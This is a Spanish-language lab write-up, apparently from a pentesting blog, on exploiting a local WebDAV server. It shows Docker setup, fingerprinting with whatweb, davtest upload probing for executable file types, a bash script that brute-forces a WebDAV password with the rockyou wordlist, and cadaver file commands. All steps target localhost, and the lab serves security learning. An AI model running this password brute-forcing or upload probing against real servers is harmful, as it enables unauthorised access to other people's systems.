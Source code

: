 ```yaml
---
title: "[Lab] Explotación de WebDAV"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, webdav]
---
```




# Explotación de WebDAV


## ¿Qué es WebDAV?

**WebDAV** es un protocolo que nos permite guardar archivos, editarlos, moverlos y compartirlos en un servidor web.

## Instalación

```bash
docker pull bytemark/webdav
docker run --restart always -v /srv/dav:/var/lib/dav -e AUTH_TYPE=Digest -e USERNAME=bryan -e PASSWORD=dancer --publish 80:80 -d bytemark/webdav
```

Una vez instalado, se verifica la dirección web en el “localhost”.

De primeras, se están pidiendo credenciales las cuales no se conocen,

![Untitled](../assets/OWASP-TOP-10/Explotación de WebDAV/Untitled.png)

Se podría saber que esto corresponde a un WebDAV al utilizar la herramienta whatweb;

```bash
whatweb WebDAV http://127.0.0.1
```

![Untitled](../assets/OWASP-TOP-10/Explotación de WebDAV/Untitled 1.png)

## DavTest

Esta herramienta sirve para hacer un “pentest” al WebDAV, para que funcione se necesita que se le otorguen credenciales válidas, lo que hace es subir múltiples archivos con diferentes extensiones para conocer cuáles son admitidas e incluso saber cuáles son ejecutables y si son interpretados por la aplicación, estos ejecutables podrían servir para llegar a ejecutar comandos.

```bash
davtest -url http://127.0.0.1 -auth username:password
```

Ahora se muestra un ejemplo del output al ingresar credenciales válidas e inválidas:

Credenciales inválidas:

![Untitled](../assets/OWASP-TOP-10/Explotación de WebDAV/Untitled 2.png)

Credenciales válidas:

![Untitled](../assets/OWASP-TOP-10/Explotación de WebDAV/Untitled 3.png)

## DavTest - Fuzzing de contraseña (DavBForce)

Se podría crear un pequeño script para aplicar fuerza bruta y descubrir la contraseña válida para un usuario determinado:

```bash
#!/bin/bash

cat /usr/share/wordlists/rockyou.txt | while read password; do
	result=$(davtest -url http://127.0.0.1 -auth bryan:$password 2>/dev/null | awk 'NR==3 {print $2}')

	if [ $result ]; then
		echo -e "[+] Password is: $password"
		break
	fi
done
```

![Untitled](../assets/OWASP-TOP-10/Explotación de WebDAV/Untitled 4.png)

## Cadaver

Esta herramienta servirá para interactuar con el servicio WebDAV, es decir, permitirá al usuario cargar, modificar, descargar archivos, etc. Para utilizarla es necesario indicar credenciales válidas.

```bash
apt install cadaver
cadaver http://127.0.0.1
```

Algunos comandos para administrar archivos en cadaver:

```bash
mkdir # Crear directorios
ls # Listar los archivos del servidor WebDAV
lls # Listar los archivos del directorio local
put <file> # Subir archivos locales al servidor WebDAV
get <file> # Descargar archivos del servidor WebDav a la 
# máquina local
rm # Eliminar archivos
```
